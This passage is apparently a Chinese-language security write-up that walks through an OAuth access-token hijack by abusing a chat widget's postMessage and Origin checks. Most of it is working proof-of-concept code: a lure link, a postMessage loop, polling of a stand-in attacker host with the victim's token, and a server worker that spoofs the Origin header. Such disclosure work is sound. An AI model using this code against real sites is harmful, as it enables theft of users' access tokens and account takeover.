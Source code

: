 
2.添加了一个链接到恶意页面，以打开登录流，该登录流最终会出现在页面上，URL中带有令牌的chat-widget:


```html

<a href=" " onclick="b=window.open('https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...');">Click here to hijack token</a >
```

3.launchChatWindowByPostMessage()函数将持续发送一个postMessage到主窗口，如果打开，以启动chat-widget:

```JavaScript

function launchChatWindowByPostMessage() {
  var launch = setInterval(function() {
    if(b) { b.postMessage({type: 'launch-chat'}, '*'); }
  }, 500);
}
```

4.当受害者单击该链接并最终出现在错误页面时，聊天将启动，并创建一个chat-api-令牌。我在恶意页面上重新加载chat-widget的iframe将通过postMessage获得API令牌，然后我可以开始在API中查找受害者的当前url:


```JavaScript

function lookInApi(token) {
  var look = setInterval(function() {
    fetch('https://fetch-server-side.attacker.test/?token=' + token).then(e => e.json()).then(e => {
      if (e &&
        e.api_data &&
        e.api_data.current_url &&
        e.api_data.current_url.indexOf('access_token') !== -1) {
          var payload = e.api_data.current_url
          document.getElementById('leak').innerHTML = 'Attacker now has the token: ' + payload;
          clearInterval(look);
      }
    });
  }, 2000);
}
```

5.服务器端页面`https://fetch-server-side.attacker.test/?token=xxx`将使用添加的origin头进行api调用，使Chat-API认为我使用它作为一个合法的起源:


```JavaScript

addEventListener('fetch', event => {
  event.respondWith(handleRequest(event.request))
})
async function getDataFromChatApi(token) {
  return await fetch('https://chat-widget.example.com/api', {headers:{Origin: 'https://example.com', 'Chat-Api-Token': token}});
}
function handleRequest(request) {
  const token = request.url.match('token=([^&#]+)')[1] || null;
  return token ? getDataFromChatApi(token) : null;
}

```
6.当受害者点击链接，经过OAuth-dance，并在添加了令牌的错误页面上登陆时，chat-widget会突然弹出，注册当前URL，攻击者将获得受害者的访问令牌。
